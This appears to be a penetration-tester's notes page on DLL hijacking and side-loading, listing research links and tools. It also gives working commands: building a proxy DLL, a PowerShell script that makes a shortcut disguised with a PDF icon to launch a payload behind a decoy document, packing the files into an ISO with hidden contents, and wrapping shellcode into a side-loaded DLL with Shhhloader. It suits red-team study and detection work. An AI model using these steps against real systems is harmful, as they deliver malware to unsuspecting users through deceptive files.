 # DLL Hijacking

- [https://hijacklibs.net/](https://hijacklibs.net/)
- [https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads](https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads)
- [https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/](https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/)
- [https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/](https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/)
- [https://besteffortteam.it/onedrive-and-teams-dll-hijacking/](https://besteffortteam.it/onedrive-and-teams-dll-hijacking/)

{% embed url="https://youtu.be/3eROsG_WNpE" %}




## DLL Side-Loading with ISO Packing

- [https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)
- [https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/](https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/)
- [https://github.com/ChoiSG/OneDriveUpdaterSideloading](https://github.com/ChoiSG/OneDriveUpdaterSideloading)

Generate a proxy DLL with [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy):

```
Cmd > SharpDllProxy.exe --dll C:\Windows\System32\version.dll --payload OneDrive.Update
Cmd > move output_version\tmp1F94.dll C:\out\vresion.dll
```

Create a malicious link (also [here](https://gist.github.com/mttaggart/eb2ba020b8816cfe3da4cfd835240b7d)):

```powershell
$obj = New-object -ComObject wscript.shell
$link = $obj.createshortcut("C:\Tools\PackMyPayload\out\clickme.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13" # PDF ico
$link.arguments = "/c start update.exe & ""%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe"" %cd%/fake.pdf"
$link.save()
```

Pack all the files into an ISO with [PackMyPayload](https://github.com/mgeeky/PackMyPayload):

```
PS > python .\PackMyPayload.py .\out\ .\out\a.iso --out-format iso --hide OneDriveStandaloneUpdater.exe,vresion.dll,version.dll,fake.pdf
```




## Tools

- [https://github.com/tothi/dll-hijack-by-proxying](https://github.com/tothi/dll-hijack-by-proxying)



### Shhhloader

- [https://github.com/icyguider/Shhhloader](https://github.com/icyguider/Shhhloader)

```
$ ./Shhhloader.py -p RuntimeBroker.exe -d -dp vresion.dll -o version.dll -s domain -sa megacorp.local shellcode.bin
```
